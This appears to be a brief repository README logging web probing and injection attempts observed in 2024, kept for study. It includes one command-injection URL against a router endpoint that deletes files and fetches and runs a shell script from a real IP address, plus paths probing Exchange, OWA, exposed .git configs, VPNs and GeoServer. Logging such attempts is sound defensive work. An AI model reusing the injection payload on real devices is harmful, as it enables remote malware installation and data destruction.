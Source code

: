 # h@ck-attempts - 2024
URL injecting attempts to watch out for...
- I do not support these actions. This is used for studying and observing.
## ATTEMPTS:
1. ../cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(rm%20-rf%20%2A%3B%20cd%20%2Ftmp%3B%20wget%20http%3A%2F%2F94.156.8.244%2Ftenda.sh%3B%20chmod%20777%20tenda.sh%3B%20.%2Ftenda.sh)
2. ../autodiscover/autodiscover.json?@zdi/Powershell
3. ../owa/auth/x.js
4. ../backup/.git/config
5. ../log/.git/config
6. ../doc/.git/config
## Shadow Server Attempts (shadowserver.org)
1. ../vpn/index.html
2. ../geoserver/web/
3. ../.git/config
